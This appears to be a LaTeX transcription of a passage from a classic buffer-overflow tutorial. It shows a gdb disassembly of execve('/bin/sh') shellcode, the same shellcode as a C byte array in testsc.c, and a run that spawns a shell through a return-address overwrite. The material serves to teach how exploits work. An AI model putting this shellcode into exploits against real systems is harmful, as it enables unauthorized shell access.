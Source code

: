 \documentclass[12pt]{article}
\begin{document}
{\small
\begin{verbatim}
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm

GDB is free software and you are welcome to distribute 
copies of it under certain conditions; type 
"show copying" to see the conditions.

There is absolutely no warranty for GDB; type 
"show warranty" for details.  

GDB 4.15 (i586-unknown-linux), Copyright 1995 
Free Software Foundation, Inc...

(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 :    pushl  %ebp
0x8000131 :    movl   %esp,%ebp
0x8000133 :    jmp    0x800015f 
0x8000135 :    popl   %esi
0x8000136 :    movl   %esi,0x8(%esi)
0x8000139 :    movb   $0x0,0x7(%esi)
0x800013d :    movl   $0x0,0xc(%esi)
0x8000144 :    movl   $0xb,%eax
0x8000149 :    movl   %esi,%ebx
0x800014b :    leal   0x8(%esi),%ecx
0x800014e :    leal   0xc(%esi),%edx
0x8000151 :    int    $0x80
0x8000153 :    movl   $0x1,%eax
0x8000158 :    movl   $0x0,%ebx
0x800015d :    int    $0x80
0x800015f :    call   0x8000135 
0x8000164 :    das
0x8000165 :    boundl 0x6e(%ecx),%ebp
0x8000168 :    das
0x8000169 :    jae    0x80001d3 <__new_exitfn+55>
0x800016b :    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.

(gdb) x/bx main+3
0x8000133 :     0xeb

(gdb)
0x8000134 :     0x2a

(gdb)
.
.
.
\end{verbatim}
}

\begin{lstlisting}[caption=testsc.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;

   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
\end{verbatim}
\end{document}
